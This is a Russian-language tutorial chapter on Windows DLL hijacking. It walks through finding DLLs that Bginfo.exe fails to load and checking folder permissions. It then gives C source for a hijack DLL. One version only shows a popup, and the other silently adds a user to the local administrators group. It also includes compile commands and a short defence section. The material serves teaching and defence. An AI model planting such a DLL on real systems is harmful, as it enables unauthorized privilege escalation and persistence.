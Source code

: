 \newpage
\subsection{6. DLL-hijacking в Windows. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![DLL hijacking](./images/8/2021-09-25_12-09.png){width="75%"}

Что такое DLL-хайджекинг? DLL-хайджекинг - это техника, при которой мы заставляем легитимное/доверенное приложение загружать нашу вредоносную DLL.

В среде Windows, когда приложение или служба запускается, оно ищет ряд DLL, необходимых для корректной работы. Ниже представлена схема, показывающая порядок поиска DLL по умолчанию в Windows:    

![DLL hijacking](./images/8/dllhijack.png){width="75%"}

В этом посте мы рассмотрим только самый простой случай: каталог приложения доступен для записи. В этом случае любую DLL, загружаемую приложением, можно подменить, так как это первое место, где система ищет библиотеки.

### Шаг 1. Поиск процесса с отсутствующими DLL

Наиболее распространенный способ найти отсутствующие DLL в системе - это запустить [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из Sysinternals, установив следующие фильтры:   

![procmon with filters](./images/8/2021-09-25_11-52.png){width="75%"}

Это позволит определить, какие DLL приложение пытается загрузить и путь, по которому оно их ищет:    

![procmon missing dlls](./images/8/2021-09-25_11-53.png){width="75%"}

В нашем примере процесс `Bginfo.exe` не находит несколько DLL, которые потенциально могут быть использованы для DLL-хайджекинга. Например, `Riched32.dll`.

### Шаг 2. Проверка прав доступа к папке

Давайте проверим права доступа к папке:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](./images/8/2021-09-25_14-42.png){width="75%"}

Согласно [документации](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls), у нас есть права на запись в эту папку.   

### Шаг 3. DLL-хайджекинг

Сначала запустим `bginfo.exe`:    
![run bginfo](./images/8/2021-09-25_11-54.png){width="75%"}

Следовательно, если я помещу DLL с именем `Riched32.dll` в тот же каталог, что и `bginfo.exe`, то при запуске инструмента выполнится и мой вредоносный код. Для простоты я создам DLL, которая просто отображает всплывающее сообщение:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Теперь мы можем скомпилировать DLL (на машине атакующего):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](./images/8/2021-09-25_11-58.png){width="75%"}

Затем переименуем файл в `Riched32.dll` и скопируем нашу вредоносную DLL в `C:\Users\user\Desktop\`.   

![replace DLL](./images/8/2021-09-25_14-54.png){width="75%"}

Теперь запускаем `bginfo.exe`:   

![run process 1](./images/8/2021-09-25_12-00.png){width="75%"}

![run process 2](./images/8/2021-09-25_12-04.png){width="75%"}

Как видите, наша вредоносная логика выполнена:

Итак, `bginfo.exe` и вредоносная `Riched32.dll` находятся в одной папке **(1)**    
Затем запускаем `bginfo.exe` **(2)**    
Появляется всплывающее сообщение! **(3)**   

### Защита от атак

Самый простой способ защиты - убедиться, что все установленное программное обеспечение размещается в защищенном каталоге `C:\Program Files` или `C:\Program Files (x86)`. Если программное обеспечение не может быть установлено в эти каталоги, следующим шагом будет обеспечение того, чтобы только пользователи с административными правами могли создавать или изменять файлы в каталоге установки, предотвращая тем самым возможность атакующего развернуть вредоносную DLL и использовать эту уязвимость.

### Эскалация (повышение) привилегий

DLL-хайджекинг может использоваться не только для выполнения кода. Он также может применяться для получения устойчивости и повышения привилегий:    

Найти процесс, который выполняется/будет выполняться с другими привилегиями (горизонтальное/латеральное перемещение) и которому не хватает DLL.   

Иметь разрешение на запись в любую папку, где будет искаться DLL (обычно это каталог исполняемого файла или какая-либо папка внутри системного пути).   

Затем заменяем наш код:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    system("cmd.exe /k net localgroup administrators user /add");
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

*Для x64 компилируем с: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*Для x86 компилируем с: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Дальнейшие шаги аналогичны.

### Заключение

Но во всех случаях есть нюанс.   

Обратите внимание, что в некоторых случаях DLL, которую вы компилируете, должна экспортировать несколько функций, чтобы загружаться процессом-жертвой. Если эти функции отсутствуют, бинарный файл не сможет их загрузить, и эксплуатация завершится неудачей.    

Таким образом, компиляция пользовательских версий существующих DLL оказывается сложнее, чем может показаться на первый взгляд, так как многие исполняемые файлы не загрузят такие DLL, если в них отсутствуют процедуры или точки входа. Инструменты, такие как [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html), могут использоваться для перечисления всех внешних имен функций и порядковых номеров легитимных DLL. Убедившись, что наша скомпилированная DLL следует тому же формату, мы максимизируем вероятность ее успешной загрузки.    

В будущем я постараюсь разобраться с этим и попробую создать скрипт на Python, который будет генерировать `.def`-файл из оригинальной целевой DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)
[исходный код на Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

Я добавил уязвимый bginfo (версия 4.16) на github, если вы захотите поэкспериментировать.   
